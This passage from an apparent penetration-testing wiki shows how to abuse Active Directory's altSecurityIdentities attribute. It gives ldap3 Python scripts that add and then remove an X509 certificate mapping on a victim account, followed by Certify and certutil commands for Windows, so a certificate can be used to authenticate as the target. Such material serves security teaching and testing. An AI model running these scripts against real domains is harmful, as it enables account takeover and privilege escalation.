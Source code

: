     print("X509:<I>"+issuer+"<SR>"+serial)
    ```
    the string can then be added to altSecurityIdentities target's attribute with the following python script.
    ```bash
    import ldap3

    server = ldap3.Server('<DC_HOST>')
    victim_dn = "<TARGET_DN>"
    attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
    attacker_password = "<ATTACKER_PASSWORD>"

    conn = ldap3.Connection(
        server=server,
        user=attacker_username,
        password=attacker_password,
        authentication=ldap3.NTLM
    )
    conn.bind()

    conn.modify(
        victim_dn,
        {'altSecurityIdentities':[(ldap3.MODIFY_ADD, '<X509IssuerSerialNumber>')]}
    )

    conn.unbind()
    ```
    The certificate requested at the begining can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the target.

    The certificate mapping written can be cleaned with the following python script.
    ```bash
    import ldap3

    server = ldap3.Server('<DC_HOST>')
    victim_dn = "<TARGET_DN>"
    attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
    attacker_password = "<ATTACKER_PASSWORD>"

    conn = ldap3.Connection(
        server=server,
        user=attacker_username,
        password=attacker_password,
        authentication=ldap3.NTLM
    )
    conn.bind()

    conn.modify(
        victim_dn,
        {'altSecurityIdentities':[(ldap3.MODIFY_DELETE, '<X509IssuerSerialNumber>')]}
    )

    conn.unbind()
    ```
=== "Windows"
    From Windows systems, Certify (C#) can be used to enroll on a certificate template
    ```bash
    Certify.exe request /ca:domain\ca /template:Machine /machine
    ```
    Then, the certutil utility permits to merge the PFX and dump the serial number and the issuer DN from it.
    ```bash
    certutil -MergePFX .\cert-a.pem .\cert-a.pfx
    certutil -Dump -v .\cert-a.pfx
    ```
    Following this, the [Get-X509IssuerSerialNumberFormat](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1) script (PowerShell) allows to craft a X509IssuerSerialNumber mapping string well formated.